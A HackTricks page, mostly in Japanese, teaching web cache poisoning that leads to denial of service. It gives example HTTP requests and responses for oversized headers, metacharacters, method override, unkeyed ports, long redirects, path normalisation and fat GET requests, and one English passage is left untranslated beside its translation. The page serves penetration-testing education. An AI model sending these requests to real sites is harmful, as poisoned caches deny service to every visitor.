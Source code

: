 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
このページでは、**キャッシュサーバーに対して有効なリクエスト**に対して**ウェブサーバーがエラーで応答する**ように試みるさまざまなバリエーションを見つけることができます。
{% endhint %}

* **HTTPヘッダーオーバーサイズ (HHO)**

ウェブサーバーがサポートするサイズより大きく、キャッシュサーバーがサポートするサイズより小さいヘッダーサイズでリクエストを送信します。ウェブサーバーは400レスポンスで応答し、これがキャッシュされる可能性があります:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTPメタキャラクター (HMC) と予期しない値**

` \n ` や ` \r ` のような **有害なメタキャラクター** を含むヘッダーを送信します。攻撃が機能するためには、まずキャッシュをバイパスする必要があります。
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
A badly configured header could be just `\:` as a header.

This could also work if unexpected values are sent, like an unexpected Content-Type:  
不適切に構成されたヘッダーは、単に `\:` として存在する可能性があります。

予期しない値が送信される場合、例えば予期しない Content-Type: の場合も、これが機能する可能性があります。
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Unkeyed header**

一部のウェブサイトは、_X-Amz-Website-Location-Redirect: someThing_ ヘッダーのように、リクエスト内の特定のヘッダーを**見ると**エラーステータスコードを返します。
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTPメソッドオーバーライド攻撃 (HMO)**

サーバーが `X-HTTP-Method-Override`、`X-HTTP-Method`、または `X-Method-Override` のようなヘッダーでHTTPメソッドを変更することをサポートしている場合、メソッドを変更して有効なページをリクエストすることが可能です。これにより、サーバーがそれをサポートしないため、不正なレスポンスがキャッシュされます：
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **未鍵ポート**

Hostヘッダーのポートがレスポンスに反映され、キャッシュキーに含まれていない場合、未使用のポートにリダイレクトすることが可能です：
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **ロングリダイレクトDoS**

次の例のように、xはキャッシュされていないため、攻撃者はリダイレクト応答の動作を悪用して、リダイレクトが非常に大きなURLを送信するようにしてエラーを返すことができます。その後、キャッシュされていないxキーなしでURLにアクセスしようとする人々は、エラー応答を受け取ります：
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **ホストヘッダーのケース正規化**

ホストヘッダーは大文字と小文字を区別しないはずですが、一部のウェブサイトは小文字であることを期待しており、そうでない場合はエラーを返します:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **パスの正規化**

一部のページは、パスにデータをURLエンコードして送信するとエラーコードを返しますが、キャッシュサーバーはパスをURLデコードし、URLデコードされたパスのレスポンスを保存します。
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

一部のキャッシュサーバー（Cloudflareなど）やウェブサーバーは、ボディを持つGETリクエストを停止するため、無効なレスポンスをキャッシュするために悪用される可能性があります：
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## 参考文献

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
